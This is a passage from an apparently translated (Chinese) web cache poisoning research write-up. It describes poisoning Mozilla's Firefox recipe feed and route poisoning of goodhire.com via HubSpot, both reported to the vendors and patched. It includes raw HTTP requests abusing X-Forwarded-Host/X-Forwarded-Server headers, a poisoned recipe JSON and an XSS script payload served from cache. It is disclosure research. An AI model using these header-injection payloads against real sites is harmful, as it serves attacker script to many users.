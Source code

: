 recipes看起来是这样的：

```
[`{`
  "id": 403,
  "last_updated": "2017-12-15T02:05:13.006390Z",
  "name": "Looking Glass (take 2)",
  "action": "opt-out-study",
  "addonUrl": "https://normandy.amazonaws.com/ext/pug.mrrobotshield1.0.4-signed.xpi",
  "filter_expression": "normandy.country in  ['US', 'CA']\n &amp;&amp; normandy.version &gt;= '57.0'\n)",
  "description": "MY REALITY IS JUST DIFFERENT THAN YOURS",
`}`]
```

该系统使用NGINX进行缓存，自然很乐意保存我投毒的响应并将其提供给其他用户。 Firefox在浏览器打开后不久就会抓取此URL并定期重新获取它，最终意味着所有数以千万的Firefox日常用户最终都可能从我的网站上获取recipes。





这提供了多种可能。 Firefox所使用的recipes已经做了[签名](https://github.com/mozilla-services/autograph/tree/master/signer/contentsignature)，所以我不能通过只安装恶意插件然后获得完整的代码执行，但我可以将数以千万的真正用户指向我选择的URL。显而易见，这除了可以被利用于DDoS，如果适当的和内存损坏漏洞相结合，这将是非常严重的问题。此外，一些后端Mozilla系统使用非签名的recipes，这可以被用于在其基础设施内部获得稳定的切入点并可能获得recipes的签名密钥。此外，我可以重放我选择的旧recipes，这可能会大规模的强制安装旧包含知有漏洞的扩展，或者导致‘Mr Robot’的意外回归。







我向Mozilla报告了这一问题，他们在24小时内修补了他们的基础设施，但是在漏洞的严重程度上存在一些分歧，因此只获得了1000美元的奖励。



### 路由投毒（Route poisoning）

 

有些应用程序不仅无知地使用请求头生成URL，而且无知地将它们用于内部请求路由：

```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Server: canary

HTTP/1.1 404 Not Found
CF-Cache-Status: MISS
…
&lt;title&gt;HubSpot - Page not found&lt;/title&gt;
&lt;p&gt;The domain canary does not exist in our system.&lt;/p&gt;
```

Goodhire.com显然是托管在HubSpot上的，而HubSpot提供优先级高于主机host 请求头的X-Forwarded-Server请求头，并且疑惑于这个请求用于哪个用户。虽然我们的输入在响应页面种回显，但它是HTML编码的，所以直接的XSS攻击在这里不起作用。要成功利用这一点，我们需要访问hubspot.com，注册为HubSpot用户，在我的HubSpot主页上放置一个payload，并且最终欺骗HubSpot在goodhire.com上提供此响应：

```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Host: portswigger-labs-4223616.hs-sites.com

HTTP/1.1 200 OK
…
&lt;script&gt;alert(document.domain)&lt;/script&gt;
```

Cloudflare将乐意缓存此响应，并将其提供给后续访问者。 然而在将此报告上交给HubSpot之后，HubSpot通过永久封掉我的IP地址来解决问题。经过一番鼓动后，他们还是修补了漏洞。



像这样的内部错误路由漏洞在这些单个系统处理针对许多不同客户的请求的应用程序（SaaS应用程序）中特别常见。
